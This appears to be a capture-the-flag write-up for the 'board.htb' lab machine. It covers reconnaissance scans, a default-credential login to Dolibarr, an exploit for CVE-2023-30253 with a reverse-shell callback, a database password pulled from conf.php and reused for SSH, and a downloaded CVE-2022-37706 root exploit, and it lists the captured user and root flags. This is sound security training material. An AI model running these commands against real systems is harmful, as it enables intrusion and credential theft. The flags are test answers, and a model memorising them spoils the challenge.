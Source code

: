 ## Target Information
- **IP Address**: 10.10.11.11

## Open Ports
An Nmap scan was conducted to identify open ports on the target machine.

```
$ nmap -sV 10.10.11.11
```

### Nmap Scan Results
```
Starting Nmap 7.94SVN (https://nmap.org) at 2024-09-19 14:54 BST
Nmap scan report for 10.10.11.11
Host is up (0.027s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Vulnerability Scanning
A vulnerability scan was performed using Nikto to identify potential security issues.

```
$ nikto -host 10.10.11.11 -p 22,80
```

### Nikto Scan Results
```
- Nikto v2.5.0
+ Target IP:          10.10.11.11
+ Target Hostname:    10.10.11.11
+ Target Port:        80
+ Start Time:         2024-09-19 14:57:36 (GMT1)
+ Server: Apache/2.4.41 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present.
+ /: The X-Content-Type-Options header is not set.
+ Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54).
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ 8050 requests: 0 error(s) and 4 item(s) reported on remote host
+ End Time:           2024-09-19 15:02:03 (GMT1) (267 seconds)
```

### Identified Vulnerabilities
- Missing security headers (X-Frame-Options, X-Content-Type-Options)
- Outdated Apache version

## Directory Busting
Directory enumeration was performed using DIRB to discover hidden directories and files.

```
$ dirb http://10.10.11.11 "/usr/share/wordlists/dirb/common.txt"
```

### DIRB Scan Results
```
==> DIRECTORY: http://10.10.11.11/css/
==> DIRECTORY: http://10.10.11.11/images/
+ http://10.10.11.11/index.php (CODE:200|SIZE:15949)
==> DIRECTORY: http://10.10.11.11/js/
+ http://10.10.11.11/server-status (CODE:403|SIZE:276)
```

## Subdomain Enumeration
Fuzzing was conducted to identify subdomains associated with the target.

```
$ ffuf -w '/usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt' -u http://board.htb/ -H "HOST: FUZZ.board.htb" -c -fs 15949
```

### Fuzzing Results
```
crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 63ms]
```

## Exploitation
The subdomain `crm.board.htb` was identified, leading to a login portal for Dolibarr version 17.0.0. 

### Authentication
Using the credentials `admin:admin`, access to the portal was successfully obtained.

### Vulnerability Identification
Research on Dolibarr 17.0.0 revealed the presence of **CVE-2023-30253**, which allows for remote code execution when authenticated.

### Exploit Execution
The exploit was downloaded and executed as follows:

```
$ python3 exploit.py http://crm.board.htb admin admin 10.10.14.133 9001
```

A reverse shell was established using the command:

```
$ nc -lvnp 9001
```

### File System Exploration
Upon gaining access, the `/home` directory was explored, revealing a directory named `larissa`, which was inaccessible due to permission restrictions. 

### Configuration File Discovery
The configuration file `conf.php` was located at `crm.board.htb/htdocs/conf`. The contents of the file provided critical information regarding the database configuration and authentication settings:

```php
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
```

### Database Access
Using the credentials extracted from the configuration file, access to the MySQL database was attempted:

```
$ mysql -u dolibarrowner -p
```

Upon successful authentication, the same credentials were used to establish an SSH connection to the target machine, allowing further exploration of the file system.

### User Flag Retrieval
After logging in via SSH, the user flag was located in the `user.txt` file:

```
User Flag: cc4868fcbf4bdd278e604885b2dc94c2
```

## Privilege Escalation
To escalate privileges, a search for setuid binaries was conducted:

```
$ find / -perm -u=s -type f 2>/dev/null
```

This search revealed the presence of a software package called **Enlightenment**, which was found to be affected by **CVE-2022-37706**.

### Exploit Execution for Privilege Escalation
An exploit for CVE-2022-37706 was downloaded from GitHub:

```
$ wget https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit
```

The exploit was then transferred to the target machine's `/tmp/` directory using SCP:

```
$ scp exploit.sh larissa@10.10.11.11:/tmp/
```

After transferring the exploit, it was executed to gain root access:

```
$ chmod +x /tmp/exploit.sh
$ /tmp/exploit.sh
```

### Root Flag Retrieval
Upon successful execution of the exploit, root access was obtained. The root flag was located in the root directory:

```
Root Flag: ee4f5ede56377b48f5554ca143d3175b
```

## Conclusion
This CTF challenge involved multiple stages, including reconnaissance, vulnerability scanning, exploitation, and privilege escalation. The successful retrieval of both the user and root flags demonstrates the effectiveness of the identified vulnerabilities and the execution of the corresponding exploits. 

### Flags Summary
- **User Flag**: `cc4868fcbf4bdd278e604885b2dc94c2`
- **Root Flag**: `ee4f5ede56377b48f5554ca143d3175b`

This write-up serves as a comprehensive overview of the methodologies and techniques employed during the engagement with the target system.